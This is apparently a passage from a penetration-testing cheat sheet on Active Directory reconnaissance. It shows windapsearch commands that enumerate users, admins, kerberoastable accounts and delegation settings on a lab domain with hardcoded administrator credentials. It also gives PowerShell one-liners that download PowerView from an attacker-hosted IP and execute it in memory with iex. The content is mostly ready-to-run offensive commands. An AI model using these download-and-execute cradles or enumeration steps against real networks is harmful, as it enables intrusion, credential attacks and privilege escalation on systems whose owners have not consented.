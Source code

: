 ```
git clone https://github.com/ropnop/windapsearch.git

apt install python3-ldap

# enute the AD with credentials via WPAD
python3 windapsearch.py -d megabank.local -u megabank\\Administrator -p "letmein.123" --dc-ip 192.168.56.103 -U -o output

# other options:

 --functionality       Enumerate Domain Functionality level. Possible through anonymous bind
  -G, --groups          Enumerate all AD Groups
  -U, --users           Enumerate all AD Users
  -PU, --privileged-users
                        Enumerate All privileged AD Users. Performs recursive lookups for nested members.
  -C, --computers       Enumerate all AD Computers
  -m GROUP_NAME, --members GROUP_NAME
                        Enumerate all members of a group
  --da                  Shortcut for enumerate all members of group 'Domain Admins'. Performs recursive
                        lookups for nested members.
  --admin-objects       Enumerate all objects with protected ACLs (i.e. admins)
  --user-spns           Enumerate all users objects with Service Principal Names (for kerberoasting)
  --unconstrained-users
                        Enumerate all user objects with unconstrained delegation
  --unconstrained-computers
                        Enumerate all computer objects with unconstrained delegation
  --gpos                Enumerate Group Policy Objects
  -s SEARCH_TERM, --search SEARCH_TERM
                        Fuzzy search for all matching LDAP entries
  -l DN, --lookup DN    Search through LDAP and lookup entry. Works with fuzzy search. Defaults to printing
                        all attributes, but honors '--attrs'
  --custom CUSTOM_FILTER
                        Perform a search with a custom object filter. Must be valid LDAP filter syntax
```

### [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```
# host the script & load in memory
# from powershell:
iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')

# from cmd:
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')
```

